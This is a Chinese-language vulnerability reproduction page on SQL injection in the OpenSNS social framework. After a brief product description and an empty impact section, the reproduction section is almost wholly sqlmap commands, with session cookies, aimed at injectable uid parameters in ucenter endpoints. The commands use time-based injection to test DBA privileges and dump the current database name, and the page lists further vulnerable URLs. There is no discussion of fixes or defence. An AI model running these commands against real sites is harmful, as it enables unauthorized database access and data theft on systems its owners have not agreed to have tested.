 ```yaml
---
title: OpenSNS sql注入
id: zhfly3058
---
```


# OpenSNS sql注入

## 一、漏洞简介

OpenSNS是基于OneThink的轻量级社交化用户中心框架，系统秉持简约的设计风格，注重交流，为用户提供了一套轻量级的社交方案。OpenSNS前身是“ThinkOX”，2015年1月28号正式更名为OpenSNS。
OpenSNS采用PHP+MYSQL构建的一款有“身份”的开源免费SNS社交系统，适用于多种社会关系。
OpenSNS采用thinkphp框架编写。系统的设计遵循高内聚低耦合，允许管理员自由开启关闭功能模块。不仅如此，OpenSNS还内置了一个功能扩展商店，可以一键在线安装新的功能扩展。
OpenSNS目前有大量的国内开发者，云市场也上架了大量的第三方功能模块和主题应用，使OpenSNS可以同时满足各行各业的社交需求。

## 二、漏洞影响

## 三、复现过程

### SQL注入(一)

需要注册一个账号并登录

```
sqlmap.py -u "http://localhost/index.php?s=/ucenter/Config/&uid=1*" --cookie " PHPSESSID=hvvkoc2sef0l1kemdrvnknd2s7; UM_distinctid=16bda55e991192-05e2b3083ccb28-1368624a-144000-16bda55e992c7; CNZZDATA1254932726=287816123-1562732483-%7C1562738136" --batch --technique=T --dbms "mysql" 
```

```
sqlmap.py -u "http://localhost/index.php?s=/ucenter/Config/&uid=1*" --cookie " PHPSESSID=hvvkoc2sef0l1kemdrvnknd2s7; UM_distinctid=16bda55e991192-05e2b3083ccb28-1368624a-144000-16bda55e992c7; CNZZDATA1254932726=287816123-1562732483-%7C1562738136" --batch --technique=T --dbms "mysql" --is-dba 
```

```
sqlmap.py -u "http://localhost/index.php?s=/ucenter/Config/&uid=1*" --cookie " PHPSESSID=hvvkoc2sef0l1kemdrvnknd2s7; UM_distinctid=16bda55e991192-05e2b3083ccb28-1368624a-144000-16bda55e992c7; CNZZDATA1254932726=287816123-1562732483-%7C1562738136" --batch --technique=T --dbms "mysql" --current-db 
```

#### 同类h注入点

http://0-sec.org/index.php?s=/ucenter/index/index&uid=10
http://0-sec.org/index.php?s=/ucenter/index/information&uid=10

### SQL注入(二)

需要注册一个账号并登录

```
sqlmap.py -u "http://localhost/index.php?s=/ucenter/index/getExpandInfo&uid=1)*--+" --cookie "PHPSESSID=hvvkoc2sef0l1kemdrvnknd2s7; UM_distinctid=16bda55e991192-05e2b3083ccb28-1368624a-144000-16bda55e992c7; CNZZDATA1254932726=287816123-1562732483-%7C1562738136;opensns_OX_LOGGED_USER=HYnkRzJxTkdgAdhKfVfkJ8n4kjemH%3DgWJU16IaiiFhglB7nm66fAxbZ9TTZXz%3DWWqjeQ5%3Di4bjZITf04G20E4v35V135D8miM5F2Jzf6VkgkYymtohawe" --dbms "mysql" --batch 
```

```
sqlmap.py -u "http://localhost/index.php?s=/ucenter/index/getExpandInfo&uid=1)*--+" --cookie "PHPSESSID=hvvkoc2sef0l1kemdrvnknd2s7; UM_distinctid=16bda55e991192-05e2b3083ccb28-1368624a-144000-16bda55e992c7; CNZZDATA1254932726=287816123-1562732483-%7C1562738136;opensns_OX_LOGGED_USER=HYnkRzJxTkdgAdhKfVfkJ8n4kjemH%3DgWJU16IaiiFhglB7nm66fAxbZ9TTZXz%3DWWqjeQ5%3Di4bjZITf04G20E4v35V135D8miM5F2Jzf6VkgkYymtohawe" --dbms "mysql" --batch --is-dba 
```

```
sqlmap.py -u "http://localhost/index.php?s=/ucenter/index/getExpandInfo&uid=1)*--+" --cookie "PHPSESSID=hvvkoc2sef0l1kemdrvnknd2s7; UM_distinctid=16bda55e991192-05e2b3083ccb28-1368624a-144000-16bda55e992c7; CNZZDATA1254932726=287816123-1562732483-%7C1562738136;opensns_OX_LOGGED_USER=HYnkRzJxTkdgAdhKfVfkJ8n4kjemH%3DgWJU16IaiiFhglB7nm66fAxbZ9TTZXz%3DWWqjeQ5%3Di4bjZITf04G20E4v35V135D8miM5F2Jzf6VkgkYymtohawe" --dbms "mysql" --batch --current-db 
```